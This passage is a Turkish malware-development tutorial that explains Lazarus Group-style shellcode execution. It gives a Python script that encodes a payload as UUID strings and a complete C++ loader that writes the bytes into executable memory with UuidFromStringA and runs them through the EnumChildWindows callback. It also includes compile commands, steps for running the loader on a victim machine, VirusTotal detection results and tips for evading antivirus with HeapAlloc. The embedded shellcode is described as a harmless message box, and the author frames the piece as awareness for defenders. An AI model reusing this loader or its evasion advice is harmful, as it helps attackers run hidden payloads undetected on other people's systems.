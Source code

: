 \newpage
\subsection{35. Zararlı yazılım geliştirme tüyoları. Lazarus group tarzı shellcode çalıştırma. C++ örneği.}

﷽

![injection](./images/63/2022-07-22_09-57.png){width="80%"}    

Bu yazı, başka bir ilginç numara üzerine yaptığım araştırmaların bir sonucudur: `UuidFromStringA` ve `EnumChildWindows` kullanarak payload çalıştırma.    

### UuidFromStringA

This function converts a string to UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```
Standard `memcpy` veya `WriteProcessMemory` işlevlerini kullanmadan, bu işlev verileri çözmek ve belleğe yazmak için kullanılabilir.   

Shellcode çalıştırma tekniği şu adımlardan oluşur:     

- Bellek tahsisi (`VirtualAlloc`)       
- `UuidFromStringA` kullanarak UUID dizilerini ikili formata dönüştürüp belleğe kaydetme    
- `EnumChildWindows` (veya `EnumDesktopsA` ya da başka bir aday) kullanarak belleğe yüklenen payload'u yürütme    

### pratik örnek

Hadi, pratik bir örneğe bakalım. Bu numara oldukça basit ve [önceki](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) numaralara benzer, ancak Lazarus Group'a özgü bazı değişiklikler içerir.    

İlk olarak, istediğimiz payload'u UUID geçerli dizelere dönüştürmek için bir betiğe ihtiyacımız var. Örneğin `payload_uuid.py`:     

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # read in 16 bytes from our input payload
    chunk = f.read(16)
    while chunk:
        # if the chunk is less than 16 bytes then we pad the difference (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

Her zamanki gibi, `meow-meow` mesaj kutusu payload'u (`meow.bin`) kullanacağım.     

Çalıştır:    

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](./images/63/2022-07-22_10-46.png){width="80%"}    

Artık payload'umuzu `UUID` formatında elde ettiğimize göre, aşağıdaki kodu test etmek için bir kavram kanıtı oluşturabiliriz:    

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

`UuidFromStringA` işlevine dikkat edin. Daha önce yazdığım gibi, bu API'yi bir UUID işaretçisi yerine bir bellek işaretçisi ile çağırmak, verilen UUID'nin ikili temsilinin bellekte saklanmasına neden olur.  

Birçok API isteğini zincirleyerek ve uygun şekilde tasarlanmış UUID'ler vererek, gerekli içeriği (payload) seçilen bellek bölgesine yüklemek mümkündür.     

Ve ardından, `EnumChildWindows` işlevindeki geri çağırma işlevine işaretçi olarak bu bellek bölgesini belirtiyoruz:     

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

veya başka bir işlev `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### demo

Her şeyi eylemde görmek için zararlı kodumuzu derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_10-56.png){width="80%"}    

ve kurbanın makinesinde çalıştıralım:    

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_10-58.png){width="80%"}    

Payload'umuzun gerçekten çalıştığından emin olmak için kodun bir kısmını biraz değiştirebilirsiniz:    

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Daha sonra tekrar derleyin:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_11-07.png){width="80%"}    

ve tekrar çalıştırın:   

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_11-09.png){width="80%"}    

Gördüğünüz gibi, her şey mükemmel bir şekilde çalıştı :)    

Şimdi `hack.exe` dosyamızı VirusTotal'a yükleyelim:    

![injection](./images/63/2022-07-22_14-59.png){width="80%"}    

**Sonuç olarak, 68 antivirüs motorundan 6 tanesi dosyamızı zararlı olarak algıladı.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

Bir sorun var. Lazarus Group, `HeapCreate` ve `HeapAlloc` işlevlerini kullanmayı tercih ediyor:     

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc`, yığın belleği tahsis etmek için sık kullanılan bir API çağrısıdır.  
Bu API, bildiğim kadarıyla, `VirtualAlloc` API'si yerine yığından belirli miktarlarda bellek ayırmanıza olanak tanır. Ancak belgelerine göre, gerekirse `HeapAlloc` hala `VirtualAlloc`'u çağırabilir.     

Ayrıca bu API, o kadar şüpheli kabul edilmez.     

Lazarus Group ayrıca payload'u yürütmek için `EnumSystemLocalesA` işlevini kullanır.    

Umarım bu yazı, mavi takım üyelerine farkındalık kazandırır ve kırmızı takım üyelerine ilham olur.      

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[Github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    
